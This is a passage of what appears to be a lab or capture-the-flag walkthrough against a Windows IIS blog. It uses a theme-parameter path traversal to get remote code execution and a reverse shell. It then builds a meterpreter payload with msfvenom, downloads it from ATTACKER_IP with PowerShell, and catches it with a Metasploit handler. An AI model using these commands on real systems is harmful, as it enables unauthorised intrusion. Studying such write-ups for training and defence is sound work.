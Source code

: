 **3. Trigger vulnerability.**

Access base URL for the blog with a theme override specified to exploit path traversal vulnerability leading to remote code execution.

http://TARGET\_IP/?theme=../../App\_Data/files

* Reverse shell caught by listener.

Connection from TARGET\_IP 49242 received!

Microsoft Windows \[Version 6.3.9600]

(c) 2013 Microsoft Corporation. All rights reserved.

whoami

c:\windows\system32\inetsrv>whoami

iis apppool\blog

### **Windows Privilege Escalation** <a href="#ze2ue95n5o7w" id="ze2ue95n5o7w"></a>

**1. Pivot from netcat to meterpreter session.**

* Generate reverse shell using msfvenom.

msfvenom -p windows/meterpreter/reverse\_tcp -a x86 --encoder x86/shikata\_ga\_nai lhost=ATTACKER\_IP lport=4446 -f exe -o shell.exe

**2. Create http server to serve payload.**

* Ensure HTTP server is running from directory where "shell.exe" is located.

python3 -m http.server

**3. Download payload to target.**

* Browse to c:\windows\temp as this directory is generally world writable.

powershell -c "Invoke-WebRequest -Uri 'http://ATTACKER\_IP:8000/shell.exe' -OutFile 'shell.exe'"

**3. Verify handler is set up in Metasploit.**

* Use Metasploit handler to receive incoming connection from reverse shell.

msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse\_tcp

set lhost ATTACKER\_IP

set lport 4446

exploit

**4. Start reverse shell on target.**

.\shell.exe

**5. Meterpreter reverse shell spawned.**
